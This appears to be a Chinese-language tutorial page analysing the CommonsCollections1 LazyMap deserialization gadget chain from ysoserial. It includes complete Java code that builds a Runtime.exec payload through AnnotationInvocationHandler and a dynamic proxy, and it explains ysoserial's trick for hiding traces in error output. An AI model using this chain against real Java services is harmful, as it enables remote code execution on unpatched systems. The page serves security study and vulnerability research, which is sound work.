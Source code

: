 ```yaml
---
sidebar_position: 1
tags: [ysoserial, PPPYSO]
#slug: About Me
#title: About Me
---
```


# CommonsCollections1 - LazyMap

## 0x01 LazyMap是什么？& 引出动态代理

前文分析了通过 `TransformedMap` 构造 payload 的方式，接下来分析 ysoserial 中使用的`LazyMap` 。 `LazyMap.get()` 方法在 key 不存在时会调用  `transform()`。

![image-20230307232014578](attachments/image-20230307232014578.png)

在上一篇文章中介绍过的 `memberValues` 对象在 `sun.reflect.annotation.AnnotationInvocationHandler.invoke()` 方法中被调用。

![image-20230327233519552](attachments/image-20230327233519552.png)

`invoke()` 方法是不是很熟悉，`AnnotationInvocationHandler` 类实现了 `InvocationHandler` 接口，这条链正是对于动态代理的运用。

如果我们将 `AnnotationInvocationHandler` 这个类包装为 `Proxy` ，那么在调用 `readObject()` 时，因为调用了这个类的方法，就会进入 `invoke()` 方法，最终也就串联起了 chain。

![image-20230308102556984](attachments/image-20230308102556984.png)

## 0x02 LazyMap构造

在之前分析 `TransformedMap` 的基础上进行改写为 `LazyMap` 方式

```java
HashMap map = new HashMap();
Map lazyMap =  LazyMap.decorate(map, chainedTransformer);
```

首先还是构造一个 `AnnotationInvocationHandler` 对象封装 LazyMap，然后创建动态代理实例。

```java
Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, lazyMap);
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);
```

动态代理实例 `proxyMap` 还需要一个存在 `readObject()` 方法的 kick-off 来触发反序列化，CC1 这条链直接用的 `AnnotationInvocationHandler` 触发。

```java
invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, proxyMap);
```

最终形成

```java
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec",new Class[]{String.class}, execArgs)
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

//        chainedTransformer.transform(null);
        HashMap map = new HashMap();
        Map lazyMap =  LazyMap.decorate(map, chainedTransformer);

        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, lazyMap);
        
				Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);
        invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, proxyMap);
```

Idea 调试时，把 `toString()` 关了，避免触发到动态代理造成意外的执行。

![image-20231221185413606](attachments/image-20231221185413606.png)

## 0x03 ysoserial 还做了什么？

在上述payload中，虽然成功执行了命令，但报错信息中存在 `java.lang.UNIXProcess` 字样

![image-20230310143919881](attachments/image-20230310143919881.png)

ysoserial在构造 `Transformer[]` 时，结尾添加了一个 `new ConstantTransformer(1)` ，报错信息中就可以将这部分信息隐藏。

![image-20230310144252780](attachments/image-20230310144252780.png)

![image-20230310144121192](attachments/image-20230310144121192.png)

并且在返回前才将有威胁的 `Transformer[]` 通过反射写入 `transformerChain`，避免在生成时调用如 `toString()` 等触发命令（动态代理会代理从Object继承来的方法）。

![image-20230310145346447](attachments/image-20230310145346447.png)

## 0x04 CC1总结

分析完 CC1 的两种利用方式，本质上的利用方式区别不大。而在分析CC1漏洞时，特意选用了小于 8u71 的jdk版本，是因为后续 [补丁](https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/f8a528d0379d) 中 AnnotationInvocationHandler 新增了一个 `LinkedHashMap` ，对 Map 的操作都基于这个新对象，因此我们传入的 Map 都无法直接执行 set、get 方法，后续分析中将继续改造调用链实现更高 JDK 版本的利用。

![image-20230310153338255](attachments/image-20230310153338255.png)

